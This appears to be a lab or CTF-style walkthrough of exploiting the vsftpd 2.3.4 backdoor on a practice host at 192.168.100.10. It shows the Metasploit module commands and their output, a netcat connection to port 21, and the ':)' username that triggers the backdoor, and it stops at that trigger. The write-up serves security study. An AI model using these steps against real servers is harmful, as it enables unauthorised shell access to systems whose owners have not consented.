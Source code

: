 
# VSFTPD 234 Backdoor

---

## Exploit Setup and Execution

After completing a scan, lets begin with vsftpd exploit!:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Target the Metasploit's IP:

```bash
set RHOSTS 192.168.100.10
```

Run the exploit!:

```bash
run
```

Metasploit reports no session created because the exploit didn't trigger the backdoor.

**Result:**

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 192.168.100.10:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.100.10:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

---

## Manual Access Check

We need to manually check if we got access.

Use netcat to connect to Metasploit's IP on port 21:

```bash
nc 192.168.100.10 21
```

**Result:**

```
220 (vsFTPd 2.3.4)
```

The backdoor in vsftpd 2.3.4 activates when you send a specially crafted username containing `:)`.

Run:

```
USER test:)
```

